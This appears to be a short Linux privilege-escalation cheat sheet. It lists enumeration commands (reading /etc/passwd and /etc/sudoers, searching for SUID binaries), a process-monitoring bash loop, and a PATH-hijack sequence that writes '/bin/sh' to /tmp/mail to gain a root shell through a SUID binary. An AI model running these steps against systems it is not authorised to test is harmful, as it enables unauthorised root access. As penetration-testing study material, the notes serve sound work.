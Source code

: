 Who am i and what groups do I belong to?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What new processes are running on the server (Thanks to IPPSEC for the script!):

```
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)

while true; do
  new_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)
  diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
  sleep 1
  old_process=$new_process
done
```

We can also use pspy on linux to monitor the processes that are starting up and running:  
<https://github.com/DominicBreuker/pspy>

Check the services that are listening:

```bash
ss -lnpt
```

## What can we EXECUTE?

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?  
`find / -type f -user root -perm /u+s -ls 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

Do any of the SUID binaries run commands that are vulnerable to file path manipulation?  
`strings /usr/local/bin/binaryelf`  
`mail`  
`echo "/bin/sh" > /tmp/mail`
`cd /tmp`  
`export PATH=.`  
`/usr/local/bin/binaryelf`  
